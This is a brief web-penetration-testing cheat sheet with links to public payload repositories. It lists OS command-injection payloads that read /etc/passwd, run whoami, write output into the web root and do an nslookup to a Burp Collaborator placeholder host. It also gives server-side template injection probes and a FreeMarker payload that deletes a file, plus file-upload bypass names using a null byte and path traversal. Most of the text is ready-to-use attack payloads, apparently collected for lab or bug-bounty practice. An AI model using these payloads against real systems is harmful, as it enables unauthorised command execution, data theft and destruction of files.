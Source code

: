 
Github:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md


# OS Command Injection

##### in-band

```
1|whoami
;system('cat%20/etc/passwd')
%0Acat%20/etc/passwd
```
##### blind 

```
email=x||ping+-c+10+127.0.0.1||
email=||whoami>/var/www/images/output.txt||
email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||
```


Github:
https://github.com/payloadbox/command-injection-payload-list

# SSTI

- Insert expressions to know the template working on the server-side, then look for the template documentation to write a payload for exploitation

```
{{7 * 7}}
${7 * 7}
<%= 7 * 7 %>
${{7 * 7}}
#{7 * 7}
```

ex:-

```
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm /home/carlos/morale.txt") }
```

# Business Logic

1. Check for application functions logic
2. Check for Positive and Negative values

# File upload

```
exploit.php
..%2fexploit.php
exploit.l33t
exploit.php%00.jpg
```
